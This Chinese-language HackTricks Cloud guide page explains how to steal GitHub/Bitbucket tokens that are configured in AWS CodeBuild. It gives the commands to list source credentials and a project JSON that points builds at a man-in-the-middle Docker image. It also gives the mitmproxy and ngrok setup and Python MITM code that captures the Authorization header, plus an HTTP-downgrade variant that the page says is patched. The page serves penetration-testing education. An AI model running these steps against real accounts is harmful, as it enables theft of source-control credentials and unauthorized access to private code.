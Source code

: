 # AWS Codebuild - Token Leakage

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 恢复 Github/Bitbucket 配置的令牌

首先，检查是否配置了任何源凭据，以便您可以泄露：
```bash
aws codebuild list-source-credentials
```
### 通过 Docker 镜像

如果你发现例如 Github 的认证已在账户中设置，你可以通过让 Codebuild **使用特定的 docker 镜像** 来运行项目的构建，从而 **提取** 该 **访问** （**GH token 或 OAuth token**）。

为此，你可以 **创建一个新的 Codebuild 项目** 或更改现有项目的 **环境** 以设置 **Docker 镜像**。

你可以使用的 Docker 镜像是 [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)。这是一个非常基础的 Docker 镜像，将设置 **环境变量 `https_proxy`**、**`http_proxy`** 和 **`SSL_CERT_FILE`**。这将允许你拦截在 **`https_proxy`** 和 **`http_proxy`** 中指示的主机的大部分流量，并信任在 **`SSL_CERT_FILE`** 中指示的 SSL 证书。

1. **创建并上传你自己的 Docker MitM 镜像**
* 按照仓库的说明设置你的代理 IP 地址并设置你的 SSL 证书，然后 **构建 docker 镜像**。
* **不要设置 `http_proxy`** 以避免拦截对元数据端点的请求。
* 你可以使用 **`ngrok`**，例如 `ngrok tcp 4444` 来将代理设置为你的主机。
* 一旦你构建了 Docker 镜像，**将其上传到公共仓库**（Dockerhub, ECR...）。
2. **设置环境**
* 创建一个 **新的 Codebuild 项目** 或 **修改** 现有项目的环境。
* 设置项目使用 **之前生成的 Docker 镜像**。

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **在你的主机上设置 MitM 代理**

* 如 **Github 仓库** 中所示，你可以使用类似的东西：
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
使用的 **mitmproxy 版本是 9.0.1**，据报道在版本 10 中这可能无法工作。
{% endhint %}

4. **运行构建并捕获凭证**

*   您可以在 **Authorization** 头中看到令牌：

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

这也可以通过 aws cli 以类似的方式完成

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~通过HTTP协议~~

{% hint style="success" %}
**此漏洞在2023年2月20日那一周的某个时候被AWS修复（我认为是在星期五）。因此攻击者无法再利用它 :)**
{% endhint %}

具有**在CodeBuild中提升权限的攻击者可能会泄露配置的Github/Bitbucket令牌**，或者如果权限是通过OAuth配置的，则**用于访问代码的临时OAuth令牌**。

* 攻击者可以将环境变量**http\_proxy**和**https\_proxy**添加到指向其机器的CodeBuild项目中（例如`http://5.tcp.eu.ngrok.io:14972`）。

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* 然后，将github仓库的URL更改为使用HTTP而不是HTTPS，例如：\*\*http://\*\*github.com/carlospolop-forks/TestActions
* 然后，在代理变量（http\_proxy和https\_proxy）指向的端口上运行[https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)中的基本示例。
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最后，点击 **Build the project**，**凭证**将以 **明文**（base64）发送到 mitm 端口：

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
现在攻击者将能够从他的机器上使用令牌，列出它拥有的所有权限，并且比直接使用 CodeBuild 服务更容易（滥用）。
{% endhint %}

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

